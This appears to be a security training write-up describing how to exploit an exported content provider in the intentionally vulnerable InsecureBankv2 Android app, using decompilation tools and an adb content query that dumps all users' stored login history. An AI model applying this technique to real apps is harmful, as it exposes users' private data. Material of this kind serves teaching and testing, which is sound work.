


**BOSTON \| SEATTLE**

**187 Ballardvale St. Suite A195 ●Wilmington, MA 01887● Ph: +1.978.694.1008**

[**getsecure@securityinnovation.com**](mailto:getsecure@securityinnovation.com)**●** [**www.securityinnovation.com**](http://www.securityinnovation.com)

**BOSTON \| SEATTLE**

**187 Ballardvale St. Suite A195 ●Wilmington, MA 01887● Ph: +1.978.694.1008**

[**getsecure@securityinnovation.com**](mailto:getsecure@securityinnovation.com)**●** [**www.securityinnovation.com**](http://www.securityinnovation.com)

| **Document name:** | Exploiting Android Content Provider |
|--------------------|-------------------------------------|
| **Author(s):**     | Dinesh Shetty                       |

# Contact Information

### Technical Contact

Dinesh Shetty

Senior Security Engineer

Email: [dinezh.shetty@gmail.com](mailto:dinezh.shetty@gmail.com)

# Test Configuration

The following is required to verify this issue:

-   Download the latest version of the Android-InsecureBankv2 apk from <https://github.com/dineshshetty/Android-InsecureBankv2>
-   Download Android SDK from <http://developer.android.com/sdk/index.html>
-   Download the latest version of apktool from <http://ibotpeaches.github.io/Apktool/>. The installation guide can be found at <http://ibotpeaches.github.io/Apktool/install/>
-   Download the latest version of JADX decompiler from <https://github.com/skylot/jadx>
-   Download latest version of dex2jar from <https://bitbucket.org/pxb1988/dex2jar/downloads>

# Test Steps

1.  Copy the InsecureBankv2.apk file to the “platform-tools” folder in the Android SDK and then use the below command to push the downloaded Android-InsecureBankv2 application to the emulator.

    ./adb install InsecureBankv2.apk

2.  Launch the installed InsecureBankv2 application on the Emulator. Following screenshot shows the default screen available to a normal user after login.

    

3.  Log in to the application with first as user “dinesh” (dinesh/Dinesh@123\$) and then as the user “jack”(jack/Jack@123\$).
4.  Copy the InsecureBankv2.apk into the “apktool” folder and enter the below command to decompile the application:

    ./apktool d InsecureBankv2.apk

    

5.  Open the decrypted *AndroidManifest.xml* file. The following screenshot shows the Broadcast receiver declared in the application.

    

6.  Unzip the contents of the originally downloaded InsecureBankv2.apk file using the below command:

    unzip InsecureBankv2.apk

    

7.  Copy the classes.dex file to the dex2jar folder. Make the d2j-dex2jar.sh and d2j_invoke.sh files executable by running the below commands.

    chmod +x d2j-dex2jar.sh

    chmod +x d2j_invoke.sh

8.  Use the below command to convert the dex file into a jar file:

    sh d2j-dex2jar.sh classes.dex

    

9.  Open the generated classes-dex2jar.jar file in JADX-GUI decompiler using the below command:

    ./jadx-gui \<path to classes-dex2jar.jar\>

    

10. The following screenshot shows the related parameters passed to the content provider declared in the application that was shown previously.

    

11. With the Android Emulator running, copy the InsecureBankv2.apk file to the “platform-tools” folder in the Android SDK and then use the below command to push the downloaded Android-InsecureBankv2 application to the emulator.

    ./adb install InsecureBankv2.apk

12. Launch the installed InsecureBankv2 application on the Emulator.
13. Navigate back to the “platform-tools” folder and enter the below mentioned command:

    ./adb shell

14. Enter the following command on the terminal:

    ./adb shell

15. Enter the following command in the Android shell:

    content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers

    

    The above screenshots shows that the login history of all of the users was stored on the device unencrypted.
